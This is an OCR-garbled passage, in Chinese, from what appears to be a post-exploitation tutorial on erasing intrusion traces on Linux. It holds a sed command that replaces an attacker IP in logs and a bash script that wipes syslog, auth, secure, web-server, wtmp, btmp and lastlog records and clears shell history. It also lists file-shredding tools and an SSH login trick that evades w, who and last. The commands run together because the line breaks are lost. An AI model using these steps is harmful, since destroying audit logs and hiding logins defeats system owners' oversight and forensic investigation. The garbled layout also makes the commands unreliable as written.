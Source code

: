   *   * 

    
    
    将所有170.170.64.17ip替换为127.0.0.1sed -i 's/170.170.64.17/127.0.0.1/g'

一键清除的bash脚本  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #!/usr/bin/bashecho > /var/log/syslogecho > /var/log/messagesecho > /var/log/httpd/access_logecho > /var/log/httpd/error_logecho > /var/log/xferlogecho > /var/log/secureecho > /var/log/auth.logecho > /var/log/user.logecho > /var/log/wtmpecho > /var/log/lastlogecho > /var/log/btmpecho > /var/run/utmprm ~/./bash_historyhistory -c

4、文件删除  
（1）shred命令  
实现安全的从硬盘上擦除数据，默认覆盖3次，通过 -n指定数据覆盖次数  

  * 

    
    
    shred -f -u -z -v -n 8 1.txt 

 **（2）dd命令**  
可用于安全地清除硬盘或者分区的内容。  

  * 

    
    
    dd if=/dev/zero of=要删除的文件 bs=大小 count=写入的次数

 **（3）wipe**  
Wipe 使用特殊的模式来重复地写文件，从磁性介质中安全擦除文件。  

  * 

    
    
    wipe filename

 **（4）Secure-Delete**  
Secure-Delete 是一组工具集合，提供srm、smem、sfill、sswap，4个安全删除文件的命令行工具。  
srm filename  
sfill filename  
sswap /dev/sda1  
smem  
 **5、隐藏远程SSH登陆记录**  
隐身登录系统，不会被w、who、last等指令检测到  

  * 

    
    
    ssh -T root@192.168.0.1 /bin/bash -i

不记录ssh公钥在本地.ssh目录中  

  * 

    